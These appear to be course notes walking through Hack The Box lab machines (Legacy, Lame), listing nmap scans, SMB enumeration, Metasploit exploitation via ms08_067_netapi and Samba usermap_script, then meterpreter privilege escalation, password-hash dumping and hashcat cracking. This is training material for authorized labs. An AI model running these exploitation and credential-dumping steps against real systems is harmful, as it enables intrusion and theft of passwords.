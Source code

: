 
<head>      
    <link rel="stylesheet" href="css/retro.css">
</head>

---

## Misc Writeups

----
### Summary

All systems covered in the section 12 'Mid-Course Capstone' (https://www.udemy.com/course/practical-ethical-hacking/learn/lecture/17398048#content)

----
#### Walkthrough - Legacy (Windows XP)
* nmap -A -T4 -p- 10.10.10.4
    * 139/145 are open (SMB)
* smbclient -L \\\\10.01.10.4\\ 
    * no connection
* msfconsole
    * search smb_version
    * use auxiliary/scanner/smb/smb_version
        * options: set rhosts 10.10.10.4
        * run / exploit
* google 'smb windows xp sp3 exploit' 
    * https://www.rapid7.com/db/modules/exploit/windows/smb/ms08_067_netapi
* msfconsole 
    * use exploit/windows/smb/ms08_067_netapi
        * options: set rhosts 10.10.10.4
        * run
    * meterpreter shell
        * getuid
        * route
        * ipconfig 
        * getsystem (priv escalation if not su)
        * hashdump (get be cracked offiline)
        * get CTFs     
---
####   Walkthrough - Lame (Ubuntu)
* nmap -A -T4 -p- 10.10.10.3
* scanning methods:
    * nmap (quick scan -> nmap -A -T4 -p- 10.10.10.3)
    * nmap (remove -A (speed killer). Then re-scan the specific ports only that have returned opened use hte -p switch)
* open ports
    * 21 FTP Anonymous Login allowed (the eploxit requires uploading a file and executinng a file)
    * 22 SSH (brute force or credentials gathering)
    * 139/445 netbios-ssn (SMB most likely )
    * 3632 distccd 
* smbclient -L \\\\10.01.10.3\\ 
    * Folder structure found!
* google: Samba 3.0.20-Debian (Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit)
    * https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script
* msfconsole 
    * msf > use exploit/multi/samba/usermap_script
        * options: set rhosts 10.10.10.3
        * run
    * meterpreter shell:
        * getuid (root)
        * getsystem (no priv escalation)
        * get CTFs  
* review: Cracking Linux Password Hashes with Hashcat - https://www.youtube.com/watch?v=eq097dEB8Sw&feature=youtu.be 
    * look at shadow file
    * unshadow shadow file
    * crack passwords with hashcat
---
####   Walkthrough - Blue 
* nmap -A -T4 -p- 10.10.10.40
---
